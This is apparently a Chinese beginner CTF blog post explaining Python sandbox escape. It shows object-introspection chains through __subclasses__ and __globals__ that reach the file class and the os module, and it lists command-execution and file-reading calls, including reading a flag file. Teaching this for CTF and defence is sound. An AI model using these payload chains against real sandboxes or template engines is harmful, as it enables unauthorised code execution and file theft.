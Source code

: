 ```yaml
---
tags: []
categories:
  - CTF-WEB
date: 2020-02-06 19:45:00
cover: /img/post/11.jpg
---
```


---
>**说明：本篇文章适合这方面的小白的入门，结合我的另一篇文章[https://blog.csdn.net/zss192/article/details/104199520](https://blog.csdn.net/zss192/article/details/104199520)更容易理解**
## 一些常见的寻找特殊模块的方式
    __class__:获得当前对象的类
    __bases__:列出其基类
    __mro__ :列出解析方法的调用顺序，类似于bases
    __subclasses__()：返回子类列表
    __dict__ ： 列出当前属性/函数的字典
    __init__  : 一般跟在类的后面，相当于实例化这个类
    __globals__ : 以字典的形式返回函数所在的全局命名空间所定义的全局变量
```python
>>> [].__class__
<type 'list'>
```
**python的内置对象有一个class属性来存储类型，我们可以使用base属性往上找他的父类**
```python
>>> [].__class__.__base__
<type 'object'>
```
**得到object对象后之后我们可通过属性subclasses来查看object的所有子类**

```python
>>> [].__class__.__base__.__subclasses__()
[<type 'type'>, <type 'weakref'>, <type 'weakcallableproxy'>, <type 'weakproxy'>, <type 'int'>, <type 'basestring'>, <type 'bytearray'>, <type 'list'>, <type 'NoneType'>, <type 'NotImplementedType'>, <type 'traceback'>, <type 'super'>, <type 'xrange'>, <type 'dict'>, <type 'set'>, <type 'slice'>, <type 'staticmethod'>, <type 'complex'>, <type 'float'>, <type 'buffer'>, <type 'long'>, <type 'frozenset'>, <type 'property'>, <type 'memoryview'>, <type 'tuple'>, <type 'enumerate'>, <type 'reversed'>, <type 'code'>, <type 'frame'>, <type 'builtin_function_or_method'>, <type 'instancemethod'>, <type 'function'>, <type 'classobj'>, <type 'dictproxy'>, <type 'generator'>, <type 'getset_descriptor'>, <type 'wrapper_descriptor'>, <type 'instance'>, <type 'ellipsis'>, <type 'member_descriptor'>, <type 'file'>, <type 'PyCapsule'>, <type 'cell'>, <type 'callable-iterator'>, <type 'iterator'>, <type 'sys.long_info'>, <type 'sys.float_info'>, <type 'EncodingMap'>, <type 'fieldnameiterator'>, <type 'formatteriterator'>, <type 'sys.version_info'>, <type 'sys.flags'>, <type 'exceptions.BaseException'>, <type 'module'>, <type 'imp.NullImporter'>, <type 'zipimport.zipimporter'>, <type 'posix.stat_result'>, <type 'posix.statvfs_result'>, <class 'warnings.WarningMessage'>, <class 'warnings.catch_warnings'>, <class '_weakrefset._IterationGuard'>, <class '_weakrefset.WeakSet'>, <class '_abcoll.Hashable'>, <type 'classmethod'>, <class '_abcoll.Iterable'>, <class '_abcoll.Sized'>, <class '_abcoll.Container'>, <class '_abcoll.Callable'>, <type 'dict_keys'>, <type 'dict_items'>, <type 'dict_values'>, <class 'site._Printer'>, <class 'site._Helper'>, <type '_sre.SRE_Pattern'>, <type '_sre.SRE_Match'>, <type '_sre.SRE_Scanner'>, <class 'site.Quitter'>, <class 'codecs.IncrementalEncoder'>, <class 'codecs.IncrementalDecoder'>]
```
**而在这所有子类中file类可读取文件，我们可以通过index查找file类的位置（file类只在python2存在）**

```python
>>> [].__class__.__base__.__subclasses__().index(file)
40
```
**我们可用下列代码读取目标文件**

```python
[].__class__.__base__.__subclasses__()[40]('./flag.txt').read()
```
**我们可用下列代码引用指定模块（eg:os模块）**

```python
>>> [].__class__.__base__.__subclasses__()[71].__init__.__globals__['os']
<module 'os' from '/usr/lib/python2.7/os.pyc'>
```
**上面的语句相当于os我们便可像往常用os来使用了，比如使用os模块的listdir**

```python
[].__class__.__base__.__subclasses__()[71].__init__.__globals__['os'].listdir("./")
```
**上面语句等同于使用os.listdir("./")**

## Python中可以利用的方法和模块
###### 1.任意代码或者命令执行
_ import _()函数

```python
__import__("os").system("ls")
```

timeit模块	

```python
import timeit
timeit.timeit("__import__('os').system('ls')",number=1)
```

exec()，eval()，execfile()，compile()函数

```python
eval('__import__("os").system("ls")')
exec("a+1")
compile('a = 1 + 2', '<string>', 'exec')
```

    注意：execfile()只存在于Python2，Python3没有该函数

platform模块

```python
import platform
platform.popen('dir').read()
```

os模块

```python
import os
os.system('ls')
os.popen("ls").read()
```
subprocess模块

```python
import subprocess
subprocess.Popen('ls', shell=True, stdout=subprocess.PIPE, stderr=subprocess.STDOUT).stdout.read()
```

importlib模块

```python
import importlib
importlib.import_module('os').system('ls')
#Python3可以，Python2没有该函数
importlib.__import__('os').system('ls')
```
#### 2.文件操作
file()函数

```python
file('test.txt').read()
#注意：该函数只存在于Python2，Python3不存在
```
   

open()函数
```python
open('text.txt').read()
```
codecs模块

```python
import codecs
codecs.open('test.txt').read()
```
###### tips:做这类题时有固定的格式，只不过有时需要绕过下，本篇文章只涉及基础讲解不牵扯绕过姿势。
## 参考
[Python沙箱逃逸总结](https://hatboy.github.io/2018/04/19/Python%E6%B2%99%E7%AE%B1%E9%80%83%E9%80%B8%E6%80%BB%E7%BB%93/)
[python sandbox escape](https://blog.0kami.cn/2016/09/16/old-python-sandbox-escape/)





